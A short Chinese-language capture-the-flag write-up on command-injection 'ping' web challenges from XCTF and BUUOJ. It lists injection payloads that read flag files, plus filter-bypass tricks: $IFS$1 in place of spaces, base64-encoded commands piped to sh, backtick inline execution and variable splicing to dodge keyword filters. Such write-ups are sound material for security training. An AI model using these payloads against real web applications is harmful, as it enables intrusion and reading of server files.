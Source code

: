 # ping

## 类型一：没有过滤可以查找的

题目地址：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=0&id=5071&page=1

127.0.0.1 | find / -name "flag.txt" （将 | 替换成 & 或 && 都可以）,查找flag所在位置

之后

127.0.0.1 | cat /home/flag.txt 可得到flag


## 类型2： 有过滤的 


题目地址：https://buuoj.cn/challenges#[GXYCTF2019]Ping%20Ping%20Ping


### 方案一

1. ?ip=127.0.0.1;ls

2. 过滤空格了，可以用${IFS}$代替：

3. 可能也过滤了{}，用$IFS$1代替：

4. ?ip=127.0.0.1;cat$IFS$1index.php

5. ?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh          此处Y2F0IGZsYWcucGhw是cat flag.php的base64-encode


### 方案二

方法名叫内联执行
方法:将反引号内命令的输出作为输入执行

输入

?ip=127.0.0.1;cat$IFS$1`ls`


### 方法三

?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php